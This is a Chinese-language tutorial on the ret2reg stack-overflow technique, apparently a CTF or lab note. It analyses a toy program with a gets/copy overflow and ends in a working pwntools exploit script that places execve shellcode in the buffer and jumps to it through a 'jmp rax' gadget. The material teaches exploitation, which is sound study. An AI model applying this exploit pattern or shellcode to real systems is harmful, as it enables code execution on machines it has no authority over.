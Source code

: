 # ret2reg

寻找溢出缓冲区，实际上就是在栈溢出发生时，找到哪个寄存器（例如 EIP）指向了溢出的缓冲区。这个缓冲区通常是一个局部变量的数组，例如 char buf[64]，当向这个数组中写入超过其大小的数据时，就会发生溢出。



在溢出发生时，如果 寄存器rax 指向了这个缓冲区，也即是说，rax中保存到是这个缓冲区的首地址。



攻击时，往缓冲区中写入shellcode。

找到程序中一段jmp rax的gadgets，然后在函数保存的返回地址覆盖为gadgets的地址。

最后函数返回的时候会跳转到，jmp rax，由于rax保存的是shellcode的地址，于是就会跳转到shellcode，开始执行shellcode。



分析程序

主函数中从标准输入中使用gets读取字符，存储到数组buf中，然后调用copy函数，copy函数中会将主函数中的buf字符串，复制到copy函数中的buffer字符串。

由于主函数的buf字符串有1000字节，而copy函数中的buffer只有100字节，就有栈溢出漏洞。

而且rax保存了主函数buf数组的地址。

![image-20231126111827484](images/ret2reg.assets/image-20231126111827484.png)

![image-20231126111856180](images/ret2reg.assets/image-20231126111856180.png)



找到`jmp rax`的gadgets

![image-20231126112131204](images/ret2reg.assets/image-20231126112131204.png)



构造payload

```python
#!/usr/bin/env python
from pwn import *

context.binary = binary = ELF("./test",checksec=False)
context.log_level = "debug"

#启动一个进程
p = process()

jmp_rax = p64(0x000000000040054f)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

#shellcode + 填充数据 + "jmp rax"gadgets
payload = shellcode + b"A" * (0x78 - len(shellcode)) + jmp_rax

p.sendline(payload)

p.interactive()
```


